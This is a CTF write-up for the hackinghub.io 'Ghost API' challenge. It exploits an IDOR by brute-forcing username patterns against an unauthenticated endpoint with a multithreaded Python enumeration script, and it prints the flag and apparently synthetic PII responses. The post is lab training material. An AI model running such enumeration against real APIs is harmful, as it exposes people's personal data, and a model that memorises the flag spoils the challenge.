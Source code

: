 ```yaml
---
author: clausmalver
title: Ghost API - Hackinghub.io
description: 
date: 2025-04-08
categories: [CTF]
tags: [CTF, Hackinghub.io]
---
```


# Ghost API writeup from hackinghub.io
For this CTF challenge, we are given the endpoint `https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/jrodriguez75` (please note that the endpoint might difer from mine due to the instance spawned). The objective is to leak confidential information from the API. There is no authorization required to access it, making it a case of an IDOR (Insecure Direct Object References) vulnerability. If you want to know more about IDOR vulnerabilities you can check these out: [OWASP IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html) or [Portswigger IDOR](https://portswigger.net/web-security/access-control/idor)

From the challenge description, we are expected to enumerate possible usernames stored in the database and the disclosure of their PII.

**The application's API is vulnerable to an IDOR that exposes sensitive user information. However, there's a twist — you'll need to understand the pattern behind how usernames are generated to fully exploit this vulnerability. Can you decipher the username creation logic and access the hidden information?**

**An example username might be: `jrodriguez75`**

When visiting the endpoint, the output looks like this:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "jrodriguez75",
    "nombre": "J",
    "apellido": "Rodriguez",
    "correo_electronico": "jrodriguez75@ejemplo.com",
    "edad": 50,
    "telefono": "+34 693 741 885",
    "direccion": "Plaza del Sol 45, 28801",
    "carnet_identidad": "82980065K",
    "ciudad": "Ciudad de México"
  }
}
```
From this, we can infer that the username format follows a common Hispanic surname, with a lowercase letter in front and potentially a number at the end that could be a date of birth of the user when generated.
We want to try all possible combinations using:

- A single lowercase letter in front of the surname
- The surname itself
- Optionally, a number from 0 to 99 appended at the end

This gives us a pattern like: `{a..z}{surname}{0..99 | nothing}`

To automate this, I asked ChatGPT to write a Python script that generates these permutations and checks each one. I also added multithreading since there are over 50,000 combinations to try.

```python
import requests
import string
import json
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed

# Logging setup
logging.basicConfig(
    filename="output.log",
    filemode="a",
    format="%(message)s",
    level=logging.INFO
)

# Top 20 common Hispanic surnames
surnames = [
    "garcia", "rodriguez", "martinez", "hernandez", "lopez",
    "gonzalez", "perez", "sanchez", "ramirez", "torres",
    "flores", "rivera", "gomez", "diaz", "reyes",
    "cruz", "morales", "ortiz", "gutierrez", "ramos"
]

base_url = "https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/"
MAX_THREADS = 20

# Generate all username permutations
usernames = []
for letter in string.ascii_lowercase:
    for surname in surnames:
        usernames.append(f"{letter}{surname}")
        for i in range(100):
            usernames.append(f"{letter}{surname}{i}")

def check_username(username):
    url = f"{base_url}{username}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            try:
                data = r.json()
                pretty = json.dumps(data, indent=2)
                log_entry = f"[+] {username} -> {url}\n{pretty}\n"
            except json.JSONDecodeError:
                log_entry = f"[+] {username} -> {url}\n[!] Non-JSON Response:\n{r.text}\n"

            print(log_entry)  # Print to console
            logging.info(log_entry)  # Save to log file

    except:
        pass

# Multithreaded execution
if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = [executor.submit(check_username, user) for user in usernames]
        for _ in as_completed(futures):
            pass
```
If we wanted to expand the script with a dataset of spanish name and surnames, a resource like this could be helpful: (https://github.com/jvalhondo/spanish-names-surnames)

After a short amount of time, the flag appears in the terminal output along with a lot of other hits:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "cgarcia",
    "nombre": "C",
    "apellido": "Garcia",
    "correo_electronico": "cgarcia@ejemplo.com",
    "edad": 21,
    "telefono": "+34 610 915 022",
    "direccion": "Plaza del Sol 28, 28773",
    "carnet_identidad": "29367700N",
    "ciudad": "Lima",
    "flag": "flag{9c9b9206bc76e06c6efd87fe80cfb310}"
  }
}
```
**Flag**: `flag{9c9b9206bc76e06c6efd87fe80cfb310}`

If you wan't to know more about this challenge and the real world bug bounty it comes from, you can see [NahamSec's video about it on Youtube](https://www.youtube.com/watch?v=Cw-hlmW89kA&t)
